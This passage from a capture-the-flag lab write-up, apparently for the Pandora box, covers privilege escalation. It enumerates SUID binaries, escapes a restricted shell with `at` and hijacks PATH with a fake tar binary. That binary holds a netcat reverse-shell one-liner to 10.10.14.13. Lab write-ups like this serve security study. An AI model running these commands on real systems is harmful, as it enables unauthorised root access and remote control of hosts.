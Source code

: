 ### Reverse Shell as user `matt`
![[Pasted image 20230131140126.png]]

---

## Privilege Escalation

### SUID bit set on /usr/bin/pandora_backup
```
matt@pandora:/home/matt$ find / -perm -4000 -ls 2>/dev/null
find / -perm -4000 -ls 2>/dev/null
   264644    164 -rwsr-xr-x   1 root     root       166056 Jan 19  2021 /usr/bin/sudo
   265010     32 -rwsr-xr-x   1 root     root        31032 May 26  2021 /usr/bin/pkexec
   267386     84 -rwsr-xr-x   1 root     root        85064 Jul 14  2021 /usr/bin/chfn
   262764     44 -rwsr-xr-x   1 root     root        44784 Jul 14  2021 /usr/bin/newgrp
   267389     88 -rwsr-xr-x   1 root     root        88464 Jul 14  2021 /usr/bin/gpasswd
   264713     40 -rwsr-xr-x   1 root     root        39144 Jul 21  2020 /usr/bin/umount
   262929     20 -rwsr-x---   1 root     matt        16816 Dec  3  2021 /usr/bin/pandora_backup
```

Using `cat` on `/usr/bin/pandora_backup` reveals that it's backing up some files to `/root` from `/var/www/pandora/pandora_console/` but it fails on execution. It looks like we're in a restricted shell:
```
matt@pandora:/var/www/pandora/pandora_console$ echo $TERM
echo $TERM
dumb
```

Let's break out of this shell with `at` since it has SUID bit set as well.

```
echo "/bin/sh <$(tty) >$(tty) 2>$(tty)" | at now; tail -f /dev/null
```


Let's take a closer look at what this script does and see if there's anything useful we can do with it.

- Output of cat /usr/bin/pandora_backup
```
MS Backup UtilityNow attempting to backup PandoraFMS clienttar -cvf /root/.backup/pandora-backup.tar.gz /var/www/pandora/pandora_console/*Backup failed!
Check your permissions!Backup successful!Terminating program!<(�������������X}�������h���8zRx

```

It seems whoever wrote this did not use an absolute path for tar and I missed this on my first peek at it. Knowing this, we can use intercept the path by changing the PATH environment variable to include a path to our own custom version of the `tar` binary
```
$ export PATH=/tmp:$PATH
$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.13 3333" >/tmp/tar
$ chmod +x /tmp/tar
```

